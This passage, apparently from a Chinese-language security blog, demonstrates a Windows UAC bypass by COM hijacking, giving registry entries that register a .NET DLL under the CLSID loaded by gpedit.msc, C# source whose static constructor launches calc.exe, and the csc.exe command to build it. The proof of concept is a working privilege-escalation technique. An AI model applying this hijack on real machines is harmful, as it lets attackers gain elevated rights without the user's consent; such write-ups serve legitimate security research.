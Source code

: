 ```
"Class"="TestDotNet.Class1"
"RuntimeVersion"="v4.0.30319"
"ThreadingModel"="Both"
"CodeBase"="file://C://Temp//test_managed.dll"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{B29D466A-857D-35BA-8712-A758861BFEA1}\InprocServer32\10.0.0.0]
"Assembly"="TestDotNet, Version=0.0.0.0, Culture=neutral"
"Class"="TestDotNet.Class1"
"RuntimeVersion"="v4.0.30319"
"CodeBase"="file://C://Temp//test_managed.dll"

[HKEY_CURRENT_USER\Software\Classes\CLSID\{B29D466A-857D-35BA-8712-A758861BFEA1}\ProgId]
@="Microsoft.GroupPolicy.AdmTmplEditor.GPMAdmTmplEditorManager"
```

**注：**

注册表项中的`@="Microsoft.GroupPolicy.AdmTmplEditor.GPMAdmTmplEditorManager"`表明，执行gpedit.msc时会调用该CLSID

生成test_managed.dll的c#代码如下：

```
using System;
using System.Diagnostics;

namespace TestDotNet
{
   public class Class1
   {
      static Class1()
      { 
         Process.Start("calc.exe");
         Environment.Exit(0);
      }
   }
}
```

保存为`TestDotNet.cs`，编译成dll

使用csc.exe编译生成dll：

```
C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /t:library TestDotNet.cs
```

**注：**

使用.Net 4.0目录下的csc.exe

将生成的TestDotNet.dll重命名为test_managed.dll，成功绕过UAC，测试如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-9-19/4-4.png)

**补充关于c#编译文件的一个技巧：**
